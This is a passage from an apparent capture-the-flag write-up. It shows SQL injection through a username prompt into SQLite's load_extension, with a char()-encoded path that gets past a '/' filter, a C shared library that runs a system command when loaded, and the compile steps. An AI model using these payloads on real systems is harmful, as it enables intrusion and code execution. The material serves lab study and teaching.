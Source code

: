 

This is actually cool because it's showing how the extension is loaded,
and it returns nothing, which becomes the empty column in the output.
The junk after the `-- -` is just to make sure the comment works.

#### Filter Bypass

For this to work, I need to use the `/` character, which is banned. I
don't have a good way to reference my shared library without it.
However, `load_extension` takes a string. In the above example I
hardcode it, but there's no reason that string can't be the output of a
function. For example, `char`
([docs](https://www.sqlite.org/lang_corefunc.md#char)). "./poc" as a
list of ints is 46, 47, 112, 111, 99. So I can do:



    oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension(char(46,47,112,111,99));-- -aaaaasdasda';
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    1|



#### Exploitation POC

Putting that all together, I'll generate a SO to run on Drive:



    #include <stdlib.h>
    void sqlite3_extension_init() {
        system("/bin/id");
    }



It's important to give the full path, as the binary drops the `PATH`
variable. I'll compile it:



    tom@drive:/dev/shm$ gcc -shared poc.c -o p.so -fPIC
    tom@drive:/dev/shm$ file p.so 
    poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=703f07b9524db0445fbabc08c598856232039ce2, not stripped



I have to make this short. The input user name is limited to 0x28 = 40
characters:



      printf("Enter username to activate account: ");
      fgets(username_input,0x28,(FILE *)stdin);



To do `"+load_extension(char(46,47,112,111,99));-- -` is 45 characters.
If I name my extension `p.so`, I'll work fine as
`"+load_extension(char(46,47,112));-- -` at 38 characters.

